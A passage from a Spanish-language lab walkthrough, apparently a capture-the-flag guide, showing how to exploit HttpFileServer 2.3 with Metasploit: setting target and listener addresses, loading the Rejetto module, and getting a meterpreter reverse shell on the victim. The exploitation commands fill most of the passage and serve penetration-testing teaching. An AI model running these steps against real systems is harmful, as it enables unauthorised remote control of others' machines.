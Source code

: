 ✅ **Explicación:**

- `RHOSTS`: IP del objetivo (máquina víctima).
    
- `LHOST`: IP de tu máquina (Parrot OS).
    
- `LPORT`: Puerto para recibir la reverse shell.


### 3. 🔍 Buscar el módulo de exploit

```bash
search rejetto
```

📌 Resultado:

![](../img/7825024a998791e14fd2d0139fb7855e.png)

Este es el exploit para **HttpFileServer 2.3**, versión vulnerable.

### 4. 📦 Cargar y ejecutar el exploit

```bash
use 1
run```

⚠️ **Nota:** Si tienes otro listener en ejecución (por ejemplo, el del script en Python), ciérralo o cambiará el puerto.

🧠 El módulo usa por defecto un payload tipo **meterpreter/reverse_tcp**, el cual permite control extendido sobre la víctima.

![](../img/6e3e39d09a67343ba1b33bd9cb4c97d4.png)

### 5. 🖥️ Acceso con Meterpreter

Una vez que el exploit tiene éxito, verás algo así:

```bash
meterpreter > shell
```

Ya dentro:

![](../img/de5d60ff1e6570dfb3e378e020cf0f42.png)
